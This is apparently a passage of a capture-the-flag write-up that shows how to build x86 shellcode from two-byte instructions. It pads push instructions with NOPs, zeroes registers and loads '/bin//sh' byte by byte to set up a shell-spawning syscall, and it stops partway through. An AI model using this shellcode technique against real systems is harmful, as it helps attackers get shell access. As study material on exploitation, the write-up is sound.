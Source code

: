 ```asm
2:  50  push   eax
f:  50  push   eax
10: 53  push   ebx
```

```asm
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
```


The `push` instructions are not `2` byte instructions. 


Passing `NOP`s after each `push` instruction will certify that they are `2` bytes. 


```asm
2:  50  push   eax
0:  90  nop
f:  50  push   eax
0:  90  nop
10: 53  push   ebx
0:  90  nop
```

Passing `/bin/sh` is the hard part. 


First we'll zero-out `eax` for the syscall number, `ecx`, `edx` which are used to pass the 3rd and 4th argument.


```asm 
xor eax, eax
xor ecx, ecx 
xor edx, edx 
```


Then we'll push `eax` which stores a `0 (NULL)`.


Adding a `nop` will make it a valid `2` byte instruction.


```asm 
push eax
nop
``` 


Then we'll split `'/bin//sh'` into each character  reversed `h`,`s`,`/`,`n`,`i`,`b`,`/`. 


We'll zero out `ebx`. `ebx` is the register used to pass the first argument in function calls in `x86`.


We'll use the `bl` register to pass `h` which is `0x68`.


`ebx` now holds `0x00000068`.
